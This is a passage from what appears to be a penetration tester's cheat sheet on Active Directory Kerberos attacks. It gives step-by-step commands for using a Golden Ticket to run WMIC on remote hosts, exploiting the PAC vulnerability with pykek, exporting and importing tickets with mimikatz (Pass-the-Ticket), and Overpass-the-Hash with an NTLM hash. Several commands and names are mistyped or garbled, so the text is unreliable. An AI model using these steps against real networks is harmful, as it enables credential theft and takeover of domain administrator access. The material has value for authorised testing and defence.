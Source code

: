   * Local our Golden Ticket (stored in /opt/ticekt.txt in our vm)
    * \>kerberos\_ticket\_use /opt/ticket.txt
  * Drop into a shell and read files off the DC
    * \>shell
    * \> dir \ \DC\c$
  * Once we are authed using the Golden ticket, we can send Domain admin commands using WMIC
  * Example: execute a ping commmand and write that to a file on a remote server
    * wmic /authority:"Kerberos:\[attacker.domain] \\\[target hostname]" /node:\[target hostname] process call create "cmd /c ping 127.0.0.1 > C:\log.txt
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Privildge Attribute Cert Vuln" %}
Privilege Attribute Certificate vulnerability

* With basic information on a domain user you can move to a domain admin by editing the PAC
  * \#git clone [https://github.com/bidord/pykek](https://github.com/bidord/pykek) /opt/pykek
  * \# apt-get install krb5-user
  * \# apt-get install rdate
  * \# rdate -n \[domain]
  * \# echo \[attacker IP]\[domain controller hostname] >> /etc/host
* Next we need 4 pieces of information
  * \-u username@domain (user@domain1)
  * \-d domain controller \[domain.controller.test]
  * \-p password
  * \-s SID (get SID with command “whoami /user”
* Now that we have all the pieces
  * \#cd /opt/pykek
  * \#python ms12-068.py -d domain.controller.test -u user@domain1 -s \[SID] -p \[password
* We have created a credential cache ticket and now we copy it where it needs to go
  * \#cp TGT\_user@domain1.ccache /tmp/krb5cc\_0
* Now you have access with
  * \#smclient -k -W domain1 //domain.controller.test/c$ -k
{% endtab %}

{% tab title="Pass-The-Ticket" %}
[https://0xeb-bp.github.io/blog/2019/11/21/practical-guide-pass-the-ticket.html](https://0xeb-bp.github.io/blog/2019/11/21/practical-guide-pass-the-ticket.html)

Kerberos Pass-The-Ticket

* Start with writing all tickets to the folder from wihch it was executed.
  * \>privilege :: debug
  * \>sekurlsa::tickets /export
* Now we import one of those as our tikets and drop back into mimikatz
  * \>kerberos::ptt \[0,ab9bf] \[ticket info]
{% endtab %}

{% tab title="OverPTH" %}
Overpass the Hash

* Over abuse NTLM user hash to gain a full Kerberos TGT
* The essence of the overpass the hash technique is to turn the NTLM hash into a Kerberos ticketand avoid the use of NTLM authentication. A simple way to do this is again with the sekurlsa::pth command from Mimikatz.
* \#mimikatz # sekurlsa::pth /user:jeff\_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
{% endtab %}
